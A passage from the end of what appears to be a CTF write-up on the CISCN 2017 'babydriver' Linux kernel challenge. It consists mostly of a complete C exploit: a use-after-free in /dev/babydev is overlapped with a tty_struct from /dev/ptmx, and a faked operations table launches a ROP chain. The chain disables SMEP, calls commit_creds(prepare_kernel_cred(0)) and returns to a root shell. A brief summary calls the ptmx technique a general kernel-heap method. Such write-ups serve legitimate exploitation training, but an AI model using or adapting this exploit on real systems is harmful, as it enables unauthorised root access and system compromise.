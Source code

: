 ```c
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}
uint64_t commit_cred  = 0xffffffff810a1420;
uint64_t prepare_kernel_cred =0xffffffff810a1810;

void get_root()
{
    uint64_t (* a)();
    a = prepare_kernel_cred;
    uint64_t (* b)();
    b = commit_cred;
    b(a(0));

}
void bypass_smep()
{
    save_status();
    int f1 = open("/dev/babydev",2);
    int f2 = open("/dev/babydev",2);
    ioctl(f1,0x10001,0x2e0);
    close(f1);
    f1 = open("/dev/ptmx",2| O_NOCTTY);
    size_t buf[0x100] = {0};
    size_t fake[0x100] = {0};
    size_t rop[0x100] = {0};
    fake[7] = 0xFFFFFFFF8181BFC5;
    fake[0] = 0xffffffff8100ce6e;
    fake[1] = rop;
    fake[2] = 0xFFFFFFFF8181BFC5;
    uint ct = 0 ;
    rop[ct++] = 0xffffffff810d238d;
    rop[ct++] = 0x6f0;
    rop[ct++] = 0xffffffff81004d80; //mov cr4, rdi; pop ; ret
    rop[ct++] = 0;
    rop[ct++] = get_root;
    rop[ct++] = 0xffffffff81063694; //swapgs; pop ; ret
    rop[ct++] = 0;
    rop[ct++] = 0xffffffff814e35ef; //iretq
    rop[ct++] = shell;
    rop[ct++] = user_cs;
    rop[ct++] = user_rflags;
    rop[ct++] = user_sp;
    rop[ct++] = user_ss;
    
    read(f2,buf,0x20);
    buf[3] = fake;
    write(f2,buf,0x20);

    char trash[0x20];
    write(f1,trash,0x20);
}
int main()
{
    bypass_smep();
}
```
# 0x05 Summary
The second solution(ptmx) is significant and it's a very general solution for kernel-heap exploitation. 


[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment
[3]: https://github.com/n132/attachment/tree/main/CISCN_2017
[4]: https://code.woboq.org/linux/linux/include/linux/tty.h.html#tty_struct
[5]: https://code.woboq.org/linux/linux/include/linux/tty_driver.h.html#tty_operations